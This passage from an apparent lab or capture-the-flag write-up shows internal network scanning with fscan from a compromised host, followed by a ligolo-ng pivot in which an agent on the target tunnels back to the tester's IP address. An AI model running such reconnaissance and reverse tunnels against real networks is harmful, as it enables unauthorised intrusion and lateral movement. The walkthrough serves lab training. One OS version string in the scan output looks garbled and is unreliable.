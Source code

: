 [https://github.com/shadow1ng/fscan](https://github.com/shadow1ng/fscan)

Upload fscan on the target machine and run it :

```bash
pentest@frajmp:~$ chmod +x fscan
pentest@frajmp:~$ ./fscan -h 10.10.173.0/24

(icmp) Target 10.10.173.49    is alive
(icmp) Target 10.10.173.53    is alive
(icmp) Target 10.10.173.54    is alive
[*] Icmp alive hosts len is: 3
10.10.173.53:88 open
10.10.173.53:445 open
10.10.173.53:139 open
10.10.173.53:135 open
10.10.173.53:80 open
10.10.173.54:54 open
[*] alive ports len is: 6
start vulscan
[*] NetBios 10.10.173.53    [+] DC:mucdc.heron.vl   Windows Server 2054 Standard 20348
[*] NetInfo
[*]10.10.173.53
   [->]mucdc
   [->]10.10.173.53
[*] OsInfo 10.10.173.53 (Windows Server 2054 Standard 20348).
```
Now we can forward :

[https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng) (i used ligolo)

```bash
# local machine 
./proxy -selfcert

# target machine
pentest@frajmp:~$ chmod +x agent
pentest@frajmp:~$ ./agent -connect 10.8.2.163:11601 -ignore-cert &

# local machine
sudo ip tuntap add user root mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 10.10.173.53/32 dev ligolo
```

Then select the session like this :

![alt text](../assets/image_heron/2er.png)
